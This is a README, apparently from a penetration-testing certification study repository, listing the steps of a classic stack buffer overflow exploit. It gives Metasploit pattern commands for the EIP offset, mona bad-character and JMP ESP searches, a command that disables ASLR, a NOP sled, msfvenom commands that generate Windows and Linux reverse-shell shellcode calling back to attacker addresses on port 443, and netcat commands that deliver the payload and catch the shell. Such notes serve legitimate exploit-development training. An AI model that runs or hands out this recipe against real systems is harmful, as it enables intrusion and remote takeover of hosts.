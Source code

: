 # OSC_BoF
This Rep describes my steps for BoF. 


1. To find the EIP offset net to create a pattern with msfvenom 

 /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100 > exploit.txt
 -> check the EIP value: example EIP: 43346943
 then use command to find out the offset: 
 /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2100 -q 42367242
 additional step:  /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2100 -q Aa0A (first 4 chars of offset to find how many chars until ESP)
 offset = 1812, -> need to fill until then with 1812 Chars
 1. Step in code: #buf = b"A" * OFFSET #junk get to EIP

2. Find bad Characters, send all chars, in hex to File and filter out bad ones: 
3. shortcut with Mona: !mona config -set workingfolder c:\log\%p
   !mona bytearray -> create bytearray.bin
   !mona compare -f C:\log\bad-characters-windows-4\bytearray.bin -a 005756C8 (address is where Badchars start, usually EBX?) 
   !mona bytearray -cpb "\x00\x06\x0a\x1a\"
   !mona compare -f C:\log\bad-characters-windows-4\bytearray.bin -a 005756C8 (address is where Badchars start, usually EBX?) 

4. find a jmp ESP instruction in code, so that we can put in our shellcode 
5. Windows: use mona !mona jmp -r esp -cpb "\x00\x1a" use jump esp instruction, to fin the right address. 
   Linux: need to disable ASLR: 
   echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
   check with: 
   cat /proc/sys/kernel/randomize_va_space
   needs to be 0, 2 means activated
    in ebd, use plugin Optcode searcher and look for ESP - EIP, and first instruction that has jmp ESP
5. take the address of jump instruction and write it backwards, ex: 0x5e9a515e -> EIP="\x5e\x51\x9a\x5e" 
6. new code: #buf = b"A" * OFFSET + EIP   
7. next add 16x NOPs: b"\x90" *16
8. new code: #buf = b"A" * OFFSET + EIP + "\x90" *16
9. create the shellcode with MSFvenom:
       msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.45.214 LPORT=443 -f py -v buf -b "\x00\x06\x0a\x1a\x3b\xcf"
       msfvenom -p windows/exec CMD='cmd.exe' --format c -b "\x00\x06\x0A\x1A\x3B\xCF\x0d\xff" -f raw -o exploit.txt
       msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.178 LPORT=443 -o exploit.txt -b "\x00\x0a\x1a"
       msfvenom -a x86 --platform Linux -p linux/x86/shell_reverse_tcp LHOST=192.168.45.221 LPORT=443 -f py -v buf -b "\x00\x0a\x0d\x1a\x20\x43\x75\x9e\xbc"
9. write final: 
                f = open("/home/kali/Downloads/exploit.txt", "wb")
                f.write(buf)
                f.close()
 10. send to server: 
 cat exploit.txt - | nc 192.168.221.52 5000
and set nc listner: nc -nvlp 443




